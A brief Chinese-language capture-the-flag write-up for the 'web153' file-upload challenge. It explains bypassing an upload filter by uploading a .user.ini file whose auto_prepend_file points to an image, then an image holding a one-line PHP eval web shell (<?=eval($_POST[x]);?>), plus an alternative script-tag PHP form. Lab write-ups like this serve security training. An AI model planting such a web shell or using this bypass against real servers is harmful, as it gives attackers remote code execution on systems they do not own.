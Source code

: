 <img src="图片\Snipaste_2023-02-01_10-17-00.png" alt="Snipaste_2023-02-01_10-17-00" style="zoom:67%;" />

## web153

JS验证 + .user.ini + 短标签

.user.ini 类似于 .htaccess，.user.ini 是 nginx 的，.htaccess 是 apache的，先上传 .user.ini，再上传 test.png，然后访问 index.php 就相当于**包含**了 test.png，我们访问  /upload/ 目录存在解析 index.php

```
.user.ini：auto_prepend_file=test.png
```

```
test.png：<?=eval($_POST[x]);?>   //提是开启配置参数short_open_tags=on
```

```
<script language=”php”>echo '1'; </script>
```

<img src="图片\Snipaste_2023-02-01_10-42-44.png" alt="Snipaste_2023-02-01_10-42-44" style="zoom:67%;" />
